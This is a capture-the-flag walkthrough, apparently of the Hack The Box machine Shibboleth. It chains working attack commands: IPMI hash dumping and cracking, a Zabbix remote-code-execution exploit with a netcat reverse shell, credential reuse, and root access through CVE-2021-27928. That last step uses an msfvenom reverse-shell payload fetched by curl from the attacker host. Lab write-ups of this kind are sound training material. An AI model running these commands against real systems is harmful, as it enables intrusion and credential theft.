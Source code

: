 # Shibboleth

# Skills

# Enumeration

The inital enumeration showed only port 80 open.

```bash
# Nmap 7.94 scan initiated Wed Nov  1 16:29:49 2023 as: nmap -p- -n -Pn -vvv -oG fast_2 10.10.11.124
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.124 ()   Status: Up
Host: 10.10.11.124 ()   Ports: 80/open/tcp//http///     Ignored State: closed (65534)
# Nmap done at Wed Nov  1 16:30:23 2023 -- 1 IP address (1 host up) scanned in 33.66 seconds
```

To access the web we need `shibboleth.htb` to point to the machine IP. In this web server we won’t find anything, so we need to enumerate in other parts:

- We could try to look for subdomains
- We could scan UDP ports and check if any of them are opened

Scanning UDP ports reported the following:

```python
PORT    STATE SERVICE  REASON
623/udp open  asf-rmcp udp-response ttl 63
```

Looking in Hacktricks we can see that we can enumerate and potentially get the password hash of the users of this service. First we will enumerate users, but we have to guess one existing user. We can try tipical admin user names and in the end we got one.

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth/ipmitool]
└─$ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P root user list
ID  Name             Callin  Link Auth  IPMI Msg   Channel Priv Limit
1                    true    false      false      USER
2   Administrator    true    false      true       USER
3                    true    false      false      Unknown (0x00)
4                    true    false      false      Unknown (0x00)
5                    true    false      false      Unknown (0x00)
6                    true    false      false      Unknown (0x00)
7                    true    false      false      Unknown (0x00)
8                    true    false      false      Unknown (0x00)
9                    true    false      false      Unknown (0x00)
10                   true    false      false      Unknown (0x00)
11                   true    false      false      Unknown (0x00)
12                   true    false      false      Unknown (0x00)
13                   true    false      false      Unknown (0x00)
14                   true    false      false      Unknown (0x00)
15                   true    false      false      Unknown (0x00)
16                   true    false      false      Unknown (0x00)
17                   true    false      false      Unknown (0x00)
18                   true    false      false      Unknown (0x00)
19                   true    false      false      Unknown (0x00)
20                   true    false      false      Unknown (0x00)
21                   true    false      false      Unknown (0x00)
22                   true    false      false      Unknown (0x00)
23                   true    false      false      Unknown (0x00)
24                   true    false      false      Unknown (0x00)
25                   true    false      false      Unknown (0x00)
26                   true    false      false      Unknown (0x00)
27                   true    false      false      Unknown (0x00)
```

Next thing is to retrive his hash, searching in google will gives us the correct tool for this,

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth/ipmiPwner]
└─$ sudo python ipmipwner.py --host 10.10.11.124 -u Administrator -c john --password-wordlist /usr/share/wordlists/rockyou.txt --output-hash hash
[*] Checking if port 623 for host 10.10.11.124 is active
[*] The username: Administrator is valid                                                  
[*] Saving hash for user: Administrator in file: "hash"
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a002140000cc9a3032dc9cdd2bfbc03d23cbdfa7654bdb75e08c9d986c5b4b343c053bdb67a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$798cb1a1d25dc7c9b3c6a6267d77d602f5092151
[*] Starting the hash cracking with john
                                                                                                                                                                                                                                            
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 8 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
ilovepumkinpie1  (10.10.11.124 Administrator)     
1g 0:00:00:00 DONE (2023-11-02 12:49) 1.265g/s 9457Kp/s 9457Kc/s 9457KC/s in_SecT..iarhsm
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And we got `Administrator:ilovepumkinpie1` as new credentials, but there is no SSH in the machine or login panel in the web, so we are missing something. We will enumerate subdomains.

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth]
└─$ wfuzz --hc 404 -L  -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H 'Host: FUZZ.shibboleth.htb' http://shibboleth.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shibboleth.htb/
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001601:   200        29 L     219 W      3684 Ch     "monitor"
```

We got one subdomain called `monitor.shibboleth.htb` . This is a virtual host so we add it to the **hosts** file and acccess the new domain. Here we can see a login panel and our gathered credentials actually work. 

# Foothold

As we can see the web is a Zabbix service, which is used to monitor net elements. We can try to search in Google if there is any way to execute commands, and indeed, there is one.  We can use the following exploit [https://www.exploit-db.com/exploits/50816](https://www.exploit-db.com/exploits/50816) to execute a command in the server. 

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth]
└─$  python rce.py http://monitor.shibboleth.htb Administrator ilovepumkinpie1 10.10.14.12 4444
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/
[+] the payload has been Uploaded Successfully
[+] you should find it at http://monitor.shibboleth.htb/items.php?form=update&hostid=10084&itemid=33617
[+] set the listener at 4444 please...
[?] note : it takes up to +1 min so be patient :)
[+] got a shell ? [y]es/[N]o:
```

We are supposed to have a shell in less than a minute but if not we can access the link and click on **Execute Now** bottom and in less than a minute we will have a shell in our listener.

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth/ipmitool]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.124] 48896
sh: 0: can't access tty; job control turned off
$ whoami     
zabbix
```

# Privilege escalation

We can check what other users are in the system, after getting a full interactive shell.

```bash
zabbix@shibboleth:/$ cat /etc/passwd | grep sh  
root:x:0:0:root:/root:/bin/bash
ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
```

Since we see a user we can try the password `ilovepumkinpie1` to log in as hi, and we get a shell as this new user. 

```bash
zabbix@shibboleth:/$ su ipmi-svc    
Password: 
ipmi-svc@shibboleth:/$
```

This new user must have any new rights that we can leverage in order to escalate privileges, but we are in no new groups and we cannot execute sudo. We can try to look for files in other directories out from our home directory that belongs to the user `ipmi-svc` or to his group. Diretories that we want to search are normally `/etc`, `/var` and `/opt` .

```bash
ipmi-svc@shibboleth:~$ find /etc/ -user 'ipmi-svc' 2>/dev/null -ls
ipmi-svc@shibboleth:~$ find /etc/ -group 'ipmi-svc' 2>/dev/null -ls
1885     24 -rw-r-----   1 root    ipmi-svc    22306 Oct 18  2021 /etc/zabbix/zabbix_server.conf.dpkg-dist
39531    24 -rw-r-----   1 root    ipmi-svc    21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
```

If check what’s inside  `/etc/zabbix/zabbix_server.conf` we will get a lot of commented lines. We can erase those from the output with the following command.

```bash
ipmi-svc@shibboleth:~$ cat /etc/zabbix/zabbix_server.conf | grep -vE '^#' | sed '/^\s*$/d'
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1
```

And we get a password and a user for the database. Next step is to connect to the database.

```bash
ipmi-svc@shibboleth:~$ mysql -uzabbix -pbloooarskybluh 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 483
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

The first thing we can check if the MariaDB version which is `10.3.25-MariaDB-0ubuntu0.20.04.1` . The result is a PrivEsc exploit for the version, we can get it from this repository https://github.com/Al1ex/CVE-2021-27928. Following the steps, we can finally get a shell as root.

- First we generate our payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=5555 -f elf-so -o CVE-2021-27928.so
```

- Then we upload this to the victim and set a listener in the specified port

```bash
ipmi-svc@shibboleth:~$ curl 10.10.14.12/CVE-2021-27928.so -o CVE-2021-27928.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   476  100   476    0     0   4533      0 --:--:-- --:--:-- --:--:--  4533
ipmi-svc@shibboleth:~$ ls
CVE-2021-27928.so  user.txt
```

- We trigger the vulnerability

```bash
ipmi-svc@shibboleth:~$ mysql -uzabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/home/ipmi-svc/CVE-2021-27928.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
```

Finally we should get a shell in our listener.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.124] 44314
whoami
root
```